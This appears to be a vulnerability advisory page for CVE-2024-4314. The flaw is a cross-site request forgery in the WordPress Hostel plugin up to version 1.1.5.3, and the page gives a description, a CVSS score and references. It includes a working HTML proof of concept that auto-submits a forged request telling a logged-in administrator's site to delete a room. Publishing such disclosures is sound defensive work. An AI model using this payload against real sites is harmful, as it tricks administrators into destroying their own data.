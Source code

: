 ```yaml
---
layout: page
title: CVE-2024-4314
subtitle: hostel <= 1.1.5.3 - Cross-Site Request Forgery
---
```

## Description
The Hostel plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.1.5.3. This is due to missing or incorrect nonce validation when managing rooms. This makes it possible for unauthenticated attackers to create and delete rooms via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS Vector CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.1.5.3

## PoC :
```
<html>
  <!-- Made by eneriiii<3 -->
  <body>
    <form action="http://[assets]/wp-admin/admin.php">
      <input type="hidden" name="page" value="wphostel&#95;rooms" />
      <input type="hidden" name="action" value="delete" />
      <input type="hidden" name="id" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://plugins.trac.wordpress.org/changeset/3079755/hostel/trunk?contextall=1&old=3070681&old_path=%2Fhostel%2Ftrunk
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/hostel/hostel-1153-cross-site-request-forgery
- https://www.cve.org/CVERecord?id=CVE-2024-4314





